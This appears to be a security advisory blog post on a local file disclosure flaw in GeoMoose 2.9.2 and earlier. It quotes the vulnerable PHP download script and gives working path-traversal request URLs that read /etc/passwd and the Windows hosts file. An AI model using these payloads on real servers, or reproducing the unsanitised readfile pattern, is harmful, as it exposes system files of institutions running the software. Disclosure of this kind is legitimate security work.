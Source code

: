 Title: GeoMoose <= 2.9.2 Local File Disclosure
Author: dsc
Date: 2017-03-7 11:12
Tags: advisory, exploits
Slug: geomoose-local-file-disclosure-2-9-2

## Advisory

GeoMOOSE is a PHP framework for displaying distributed cartographic data. Bundled with M4SW, GeoMoose can be found on 
GIS services ran by scientific institutions and local governments.

### Vulnerable code:

    :::php5
    <?php
    $tempDir = $CONFIGURATION['temp'];
    $id = $_REQUEST['id'];
    $ext = $_REQUEST['ext'];
    $as_download = $_REQUEST['download'];
    $mimetypes = array(
        'pdf' => 'application/pdf',
        'jpeg' => 'image/jpeg',
        'png' => 'image/png',
        'gif' => 'image/gif',
        'html' => 'text/html',
        'csv' => 'text/csv'
    );
    header('Content-type: '.$mimetypes[$ext]);
    if($as_download == 'true') {
        header('Content-Disposition: attachment; filename=download_'.getmypid().time().'.'.$ext);
    }
    readfile($tempDir.$id.'.'.$ext);
    ?>

### Exploit

This one is easy:
    
    :::bash
    # Exploit Title: GeoMoose <= 2.9.2 Local File Disclosure
    # Exploit Author: Sander 'dsc' Ferdinand
    # Date: 2017-03-4
    # Version: <= 2.9.2
    # Blog: https://ced.pwned.systems
    # Vendor Homepage: geomoose.org
    # Reported: 4-3-2017
    # Vendor response: http://osgeo-org.1560.x6.nabble.com/Geomoose-users-GeoMoose-Security-Issue-td5315873.html
    # Software Link: https://github.com/geomoose/geomoose
    # Tested on: Windows/Linux
    # CVE : none
    
    /php/download.php?id=foo/.&ext=/../../../../../../../etc/passwd
    /php/download.php?id=foo/.&ext=/../../../../../../../WINDOWS/system32/drivers/etc/hosts


### Some Notes

- input vector can be GET/POST parameters or through COOKIE.
- Header injection possible depending on the [PHP version](http://php.net/manual/en/function.header.php#refsect1-function.header-changelog).
- [exploit-db.com](https://www.exploit-db.com/exploits/41822/)

